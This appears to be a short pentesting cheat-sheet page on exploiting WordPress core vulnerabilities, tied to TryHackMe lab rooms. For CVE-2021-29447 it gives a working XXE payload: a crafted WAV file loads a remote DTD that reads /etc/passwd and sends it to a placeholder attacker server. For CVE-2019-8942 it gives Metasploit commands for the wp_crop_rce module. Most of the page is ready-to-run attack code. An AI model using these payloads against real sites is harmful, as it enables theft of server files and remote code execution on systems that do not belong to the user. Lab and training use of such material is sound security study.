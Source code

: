# WordPress Core Exploitation

<div class="row row-cols-lg-2"><div>

WordPress core still has many [vulnerabilities](https://wpscan.com/wordpresses/) over the years.

* [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447) which you can exploit following [wpscan](https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5/) notes.

[![wordpresscve202129447](../../../../../../cybersecurity/_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

```shell!
$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/xxx.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
$ cat xxx.dtd
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
$ php -S 0.0.0.0:PORT
```
</div><div>

* [CVE-2019-8942](https://nvd.nist.gov/vuln/detail/CVE-2019-8942) which can be exploited with metasploit

[![blog](../../../../../../cybersecurity/_badges/thm-p/blog.svg)](https://tryhackme.com/r/room/blog)

```ps
msf6> use exploit/multi/http/wp_crop_rce
msf6> set LHOST tun0
msf6> set RHOST example.com
msf6> set USERNAME xxx
msf6> set PASSWORD xxx
```
</div></div>